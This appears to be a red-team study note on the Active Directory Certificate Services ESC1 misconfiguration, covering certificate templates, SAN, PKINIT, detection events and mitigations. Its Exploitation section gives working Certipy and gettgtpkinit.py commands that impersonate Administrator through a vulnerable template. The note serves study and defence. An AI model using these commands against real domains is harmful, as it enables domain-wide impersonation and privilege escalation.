 ```yaml
---
tags:
  - attack
  - knowledge
  - AD
  - windows
  - redteam
date: 2023-09-1
---
```

- Certificate template misconfiguration.
- Allows attacker to request a cert for any user/service account.
	- achieved by specifying a custom `Subject Alternative Name (SAN)`.
- If template:
	- allows requester to supply the subject.
	- AND supports client authentication ([[PKINIT authentication|PKINIT]])
		- attacker can impersonate any principal in AD.
# Certificate Template Background

- A [[Certificate Template]] is a blueprint, defining:
	- what type of certs can be issued
	- what crypto properties they have
	- what `EKUs` are present
	- who is allowed to request them (via the `Enroll` right)
	- what subject info (like UPN/DNS name) gets inserted into the cert.
- Templates populate the subject from:
	- [[Active Directory]] (controlled/secure).
	- OR let the requester specify the subject (bad!).
- If flag `ENROLLEE_SUPPLIES_SUBJECT` is set, user can tell the [[Certificate Authority (CA)|CA]]:
	- "I want this cert to say it is for `Administrator@corp.local`"
- If template also includes `EKU Client Authentication`, resulting cert can be used for [[Kerberos]] PKINIT login as the spoofed user.
# SAN Background

- SAN field used to associate identities (e.g. UPNs, DNS names) with the cert.
- If SAN includes a UPN like `Administrator@corp.local`, AD accepts it as belonging to that user if the cert chains to a trusted CA.
- AD does not verify the requester of the cert is the user listed in the SAN.
# PKINIT Background

- Extension to Kerberos.
- Allows user to authenticate using a cert instead of password.
- How it works:
	- User sends cert in the [[AS-REQ (Authentication Request)|AS-REQ]] to the [[KDC (Key Distribution Center)|KDC]].
	- KDC checks:
		- is this a trusted CA?
		- does the cert have client authentication EKU?
		- does the UPN in the SAN match a real user?
	- If yes, [[Ticket Granting Tickets (TGTs)|TGT]] is issued.
- If attacker gets a cert that:
	- chains to a trusted CA
	- has the ClientAuth EKU
	- Contains the SAN: `Administrator@corp.local`
- They can authenticate as Administrator.
# Trust Model Failure

- CA will:
	- issue certs with whatever SAN you ask for (if `ENROLLEE_SUPPLIES_SUBJECT`).
	- as long as you are authorized to request something from the template.
- AD will:
	- accept any cert with a trusted chain + valid SAN.
	- regardless of who requested it.

>[!danger]
>Any domain user with enroll rights on a vulnerable template can impersonate any user in AD.
# Exploitation

- Find a vulnerable template via [[Certipy]]:
	- `certipy-ad find -u user@corp.local -p 'Pass123!' -dc-ip 10.0.0.5 -vulnerable`
	- Look for:
		- `ENROLLEE_SUPPLIES_SUBJECT: True`
		- `EKU: Client Authentication`
		- User has `Enroll` rights.
- Request cert impersonating Administrator:
	- `certipy-ad req -u user@corp.local -p 'Pass123!' -ca corp-CA -template CorpTemplate -upn Administrator@corp.local -dc-ip 10.0.0.5 -output esc1`
- Authenticate with forged ticket:
	- `certipy-ad auth -pfx esc1.pfx -dc-ip 10.0.0.5`
	- `gettgtpkinit.py -pfx esc1.pfx corp.local/Administrator`
# Detection & Logging

- `Event ID 4886` (certificate issued).
- Check for mismatch between certificate SAN and requester.
- `Event ID 4768` (Kerberos AS-REQ):
	- logons with certs where the subject != request.
- Certs issued via template with `ENROLLEE_SUPPLIES_SUBJECT = 1`.
# Mitigation

- Audit templates:
	- `certutil -template`
- Disable SAN spoofing:
	- Uncheck `Supply in the request`.
	- Set subject to `Build from this Active Directory information`.
- Restrict enroll permissions.
- Use Manager Approval for sensitive templates.
- Monitor for:
	- certs with suspicious SANs.
	- cert-based logins as high-priv accounts.
